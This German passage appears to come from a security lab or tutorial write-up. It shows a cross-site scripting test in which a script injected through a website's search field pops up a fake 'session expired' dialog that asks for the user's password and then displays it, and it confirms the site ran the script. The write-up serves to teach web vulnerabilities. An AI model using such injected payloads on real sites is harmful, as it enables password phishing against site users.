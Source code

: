 Wir versuchen ein Skript in über das Suchfeld zu injezieren.

```html
<script>
let password = prompt("Ihre Sitzung ist abgelaufen. Bitte geben Sie Ihr Passwort nochmals ein:");
alert(password)
</script>Stadtgeschichte
```

![URL 5](URL/URL_05.JPG)
Die Eingabe wird besätigt. Die Website hat sich verändert. Das über die Suchfunktion eingeschleuste Skript wurde in die Website eingebunden und ausgeführt:

```JavaScript
let password = prompt("Ihre Sitzung ist abgelaufen. Bitte geben Sie Ihr Passwort nochmals ein:");
```
Dieser Code führt dazu, dass ein Dialogfeld auftaucht und den Nutzer dazu auffordert sein Passwort einzugeben. Dieses wird in der Variable _"password"_ gespeichert.
